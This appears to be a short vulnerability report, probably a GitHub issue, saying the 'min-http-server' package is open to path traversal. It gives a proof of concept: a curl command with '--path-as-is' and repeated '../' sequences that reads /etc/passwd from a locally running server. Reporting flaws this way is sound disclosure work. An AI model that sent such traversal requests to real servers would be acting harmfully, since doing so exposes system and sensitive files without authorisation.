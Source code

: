 # :bug: Description

The `min-http-server` package is vulnerable against `path traversal`, which leads to `information disclosure` and `sensitive file leakage`.
The package is vulnerable against this attacck through the `double dots` technique.

# :fire: PoC

1. Download `min-http-server`
2. `./min-http-server`
3. Run 

```bash
curl --path-as-is 'http://localhost:1579/../../../../../../../etc/passwd'
```
4. The content of `/etc/passwd` is shown :smile:
